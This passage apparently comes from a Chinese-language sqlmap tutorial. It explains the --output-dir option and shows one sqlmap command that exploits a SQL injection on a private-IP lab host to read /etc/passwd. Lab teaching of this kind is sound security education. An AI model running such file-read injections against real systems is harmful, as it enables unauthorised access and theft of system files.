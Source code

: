 ![24](/medias/sqlmap/24.png)

可以使用`--output-dir`参数，指定输出目录在桌面，我的终端在桌面打开的，直接指定当前目录了

```bash
sqlmap -u "http://192.168.6.112:8080/Less-1/?id=1" -p id --dbms=mysql --file-read=/etc/passwd --flush-session --batch --output-dir=./
```

![25](/medias/sqlmap/25.png)
